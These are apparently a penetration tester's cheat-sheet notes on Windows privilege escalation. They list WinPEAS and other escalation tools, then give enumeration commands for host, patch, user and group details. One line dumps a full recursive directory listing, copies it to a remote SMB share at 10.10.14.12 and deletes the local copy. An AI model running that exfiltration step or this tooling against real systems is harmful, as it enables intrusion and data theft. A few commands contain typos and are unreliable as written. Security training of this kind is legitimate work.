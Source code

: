 ### WinPEAS
WinPEAS has a `.bat` along with a pre-built `.exe`. The code is `C#` so an alternative is to recompile and test using `VirusTotal`. 

```
sudo git clone https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite.git /opt/privilege-escalation-awesome-scripts-suite
```

### Others
Credit to Heath Adams' Udemy course `Windows Privilege Escalation for Beginners`:
* seatbelt.exe
* watson.exe
* sharpup.exe
* sherlock.ps1
* powerup.ps1 (PowerShellMafia/PowerSploit)
* jaws-enum.ps1

## Terminal
*Powershell may well be logged, as may calls to WMIC.*

### System details
```
hostname                                                // Print hostname
systeminfo                                              // System details, architecture, patch level
wmic qfe list                                           // Windows Update details
Get-Hotfix                                              // Windows update details from Powershell
net accounts                                            // General account details
wmic logicaldisks get caption,description,providername  // Disks attached to the system
net localgroup <group name>                             // Shows group members of the specified group
net localgrooup Administrators                          // Shows what other groups have admin rights
```

### User details
```
whoami /all
wmic useraccount get name
net user                                                // Show user accounts
net user Administrator                                  // Show details for Administrator
net user <user>                                         // Show details for <user>
```

### Recursive directory listing
Recursive (`/s`) listing from \, show all files including hidden (`/a`), include owner (`/q`) and alternate datastreams (`/r`), save to temp, copy to share and delete temp file.
```
dir C:\ /s /a /q /r
dir C:\ /s /a /q /r > %temp%\1185 && copy %temp%\1185 \\10.10.14.12\share\dir-full & del %temp%\1185 
```

